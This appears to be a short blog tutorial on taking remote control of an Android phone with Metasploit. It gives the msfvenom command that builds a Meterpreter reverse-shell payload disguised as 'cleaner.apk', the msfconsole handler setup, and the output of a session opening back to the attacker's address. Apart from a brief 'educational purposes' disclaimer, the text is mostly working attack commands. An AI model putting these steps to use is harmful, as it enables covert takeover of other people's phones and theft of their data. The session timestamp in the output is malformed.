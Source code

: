 ```yaml
---
layout: post
title: How to hack an Android Device
---
```


This is a tutorial for hacking an android using Metasploit Framework.

*Note: This tutorial is for educational purposes I'm not responsible for any misuse of it.*

## Requirements:
<br />
* Kali Linux
* Metasploit Framework installed.

*Note: This can be done on other distros with Metasploit package but Kali Linux gives favourable environment with all packages pre-installed.*

## Steps:
<br />
* Create an android apk file using msfvenom.
```bash
$ msfvenom -p android/meterpreter/reverse_tcp LHOST="IP ADDR"
 LPORT=4444 R > cleaner.apk
```
*Note: Replace IP ADDR with your ip address.*

* Fire up msfconsole
```bash
$ msfconsole
```
* To listen to the payload, setup a handler.
```bash
msf> use exploit/multi/handler
msf exploit(handler)> set PAYLOAD android/meterpreter/reverse_tcp
```

* Check its configurations.
```bash
msf exploit(handler)> show options
```

* Set the LHOST and LPORT you specified earlier using these commands.
```bash
msf exploit(handler)> set LHOST "IP ADDR"
msf exploit(handler)> set LPORT 4444
```

* Start the exploit
```bash
msf exploit(handler)> exploit
```
You need to transfer the apk file we generated previously to the testing phone and install it. Once that app is opened in the phone meterpreter session will start.
```bash
[*] Started reverse TCP handler on 192.168.0.100:4444
[*] Starting the payload handler...
[*] Sending stage (63194 bytes) to 192.168.0.106
[*] Meterpreter session 1 opened (192.168.0.100:4444 ->
 192.168.0.106:35897) at 2016-055-24 _05:30
meterpreter >
```
* Done!

* For options use this
```bash
meterpreter > help
```

